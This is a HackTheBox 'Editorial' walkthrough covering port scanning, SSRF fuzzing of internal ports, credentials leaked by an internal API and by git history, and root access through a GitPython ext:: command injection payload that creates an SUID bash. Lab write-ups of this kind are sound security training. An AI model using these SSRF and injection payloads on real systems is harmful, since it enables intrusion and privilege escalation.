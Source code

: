 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Editorial machine Walkthrough"
date: "2025-01-25"
description: " "
tags: ["Hackthebox", "CVE","OSCP-Preparation", "Machine-Walkthrough"]
cover:
    image: "/writeups/Editorial-HackTheBox/Cover.png"
ShowToc: true
TocOpen: false
---
```




## Enumeration

### Scanning with nmap
All port scanning is being perform with the following command:

```
nmap -p- --min-rate 2500 10.10.11.20 -oN allports.txt
```

The following shows the result of the command:

![](/writeups/Editorial-Hackthebox/1.png)

It shows port 22, 80 as open. In order to find the version of services, service version enumeration is being performed with the following command. 

```
nmap -p 22,80 10.10.11.20 -sC -sV -O -oN serviceVersion.txt
```

![](/writeups/Editorial-Hackthebox/2.png)



As the web server is running, so the website is being browsed and the following is the hosted web server. 
![](/writeups/Editorial-Hackthebox/3.png)




The following email found, but it was of no use.  
submissions@tiempoarriba.htb

### Directory Enumeration: 

Dirsearch is being used for enumerating all the available directories in the target server.

Command:
```
dirsearch http://editorial.htb/
```

![](/writeups/Editorial-Hackthebox/4.png)
As shown, the two directories `/about` and `/upload` are being found.

The `/upload` directory has a form to upload the book information. 
![](/writeups/Editorial-Hackthebox/5.png)


Tried the file upload vulnerability in the file upload. But it is not rendering the uploaded file in the web page, instead, it is serving the uploaded file for downloading. 

There's another option to upload the URL of the book cover. This feature has an SSRF vulnerability. 
This can be confirmed by running a `nc` listener, and sending request to our own listener in the book cover URL as shown below:
![](/writeups/Editorial-Hackthebox/6.png)


A request can be sent to the internal server to get information from there. So, a request is being sent to `127.0.0.1:80` as shown:

It takes a bit of time, and responded with a jpeg file. For enumerating other ports, I tried enumerating a few other ports, but all were giving the same jpeg file as shown:
![](/writeups/Editorial-Hackthebox/7.png)


### Enumerating the Open Ports in the Internal Server with FFUF:

Replaced the port number in burp with `FUZZ` as shown below:
![](/writeups/Editorial-Hackthebox/8.png)

Saved the burp request in file called `req.txt` and run ffuf with the following command:

```
ffuf -request req.txt -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```

This will use the req.txt to fuzz the port with the wordlist of sequence from 1 to 65535 and will not show all the responses containing the regex `1630734277837_ebe62757b6e0.jpeg`. 

Port 5000 was sending a different response. That means, this port is open. 

Sent request to port 5000 as shown below:
![](/writeups/Editorial-Hackthebox/9.png)

It gave me a URL to download a file. 

![](/writeups/Editorial-Hackthebox/10.png)

The file contains a list of end points. I sent request to the `/api/latest/metadata/messages/authors` endpoint, which again gave ma another URL. I visited that URL and got a password of `dev` user as shown:
![](/writeups/Editorial-Hackthebox/11.png)

### Getting Access of the Machine

The password was used to get access of the machine through SSH as the `dev` user. 

### Literal Movement:

The `apps` directory has a .git directory, which contains the different version of the code. 

There were different files which were stagged but not committed as shown:

Command Used:
```
git status
```

![](/writeups/Editorial-Hackthebox/12.png)

The log of git showed interesting commit with message `downgrading prod to dev`:
Command Used:
```
git log
```

![](/writeups/Editorial-Hackthebox/13.png)


This commit is being shown with the command:

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![](/writeups/Editorial-Hackthebox/14.png)

This showed the password of `prod` user as shown. 

### Privilege Escalation

There's an script, which the prod user can run as the root user as shown:
![](/writeups/Editorial-Hackthebox/15.png)

The following is the content of file:
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Here, the git module has the vulnerability. I searched about python git priv esc and got this:
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

The following can be supplied as the argument to the script for executing command as root:
```
ext::sh -c touch% /tmp/pwned
```

This will create `/tmp/pwned`. 
So, in order to exploit this i run this command, which will copy the root shell and will set its suid bit, we can use that shell later to get root access. 

```python
ext::sh -c cp /bin/bash /tmp/bash; chmod +s /tmp/bash

# we have to add % before each space so it will be like this

ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash

# The final payload will be:

/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash'
```

The following shows the result of this command:

![](/writeups/Editorial-Hackthebox/16.png)
It displayed some kind of error, but we can ignore that as our code executed already. 
I used the following command to interact with the shell and get access as root:
```
/tmp/bash -p
```


Hence, the machine is ROOTED!

